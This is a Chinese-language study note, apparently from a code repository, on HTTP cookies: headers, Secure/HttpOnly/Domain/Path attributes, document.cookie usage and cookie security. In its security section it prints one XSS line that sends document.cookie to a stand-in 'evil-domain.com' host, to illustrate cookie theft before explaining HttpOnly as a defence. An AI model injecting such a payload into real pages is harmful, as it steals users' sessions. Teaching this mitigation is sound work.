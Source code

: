 # cookie

## HTTP传送cookie

- HTTP响应报文，**创建cookie**

```http
Set-Cookie: <cookie-name>=<cookie-value>
```

- HTTP请求报文，**返回cookie**

```http
Cookie: <cookie-name>=<cookie-value>; <cookie-name>=<cookie-value>
```

- 设置**Secure**和**HttpOnly**

一个 `Secure Cookie` 只可以发送给https协议的服务器，尽管它写作secure，但是不应该在cookie里保存敏感信息。

设置 `HttpOnly` 可以保证Cookie只可以发送给服务器，而不被Document.cookie API访问。

```http
Set-Cookie: id=123; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

- cookie的范围

`Domain `可以设置接收端的域名，如果不设置，默认是当前域名而不包括子域名。如果Domain字段被设置，字域名就会包括进去。

如果 `Domain=mozilla.org`， 则cookie包括子域名 `developer.mozilla.org` 。

`Path`  表示cookie所在的目录。

## DOM操作cookie

- 获取一个域名下的所有cookie

```js
allCookies = document.cookie;

// "_ga=GA1.2.1125311927.1554943341; dwf_sg_task_completion=False; django_language=zh-CN; csrftoken=PC9EJgRhmxzElVf0jtMljoN2RWBvdoMzo9E504a7QFQscCzyua2d2rSt9v4KvhNW; lux_uid=156924532189287124"
```

上面每条cookie以分号和空格分隔。

- 写一个新的cookie

```js
document.cookie = newCookie;
```

newCookie是一个键值对形式的字符串。需要注意的是，用这个方法一次只能对一个cookie进行设置或更新。

```js
// 示例

document.cookie = 'name=shi';
```

- 删除一个cookie

通过设置一个cookie的过期时间为0可以删除一个cookie。

# 安全

路径限制不能阻止从其他路径访问cookie。使用简单的DOM即可轻易地绕过限制。保护cookie不被非法访问的唯一方法是将它放在另一个域名/子域名之下，利用同源策略保护其不被读取。

窃听cookie的常见方法包括社会工程和XSS攻击：

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

HttpOnly属性可以阻止通过javascript访问cookie，从而在一定程度上遏制这类攻击。

